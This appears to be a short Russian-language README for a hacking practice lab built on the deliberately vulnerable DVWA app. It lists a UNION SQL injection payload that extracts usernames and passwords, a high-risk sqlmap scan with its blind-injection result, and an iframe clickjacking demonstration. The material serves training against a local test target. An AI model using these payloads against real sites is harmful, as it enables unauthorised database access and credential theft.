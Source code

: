 ## Запуск тестового сайта

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

## Настройка
1. http://localhost/index.php
2. reset/create database
3. admin:password
4. `%' and 1=0 union select null, concat(user,':',password) from users`

## SQL-injection scan example
`sqlmap -r sqlmap.example --dbms=mysql --risk=3 --level=5`\n
GET parameter 'id' is **vulnerable**. 
sqlmap identified the following injection point(s) with a total of 502 HTTP(s) requests:
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=1' OR NOT 4197=4197-- twle&Submit=Submit
```

## XSS-injection example
open iframe.html in browser you should not see the site\n
Refused to display 'https://ya.ru/' in a frame because it set 'X-Frame-Options' to 'deny'.\n
But on the vulnerable app like localhost/login.php you will see the form

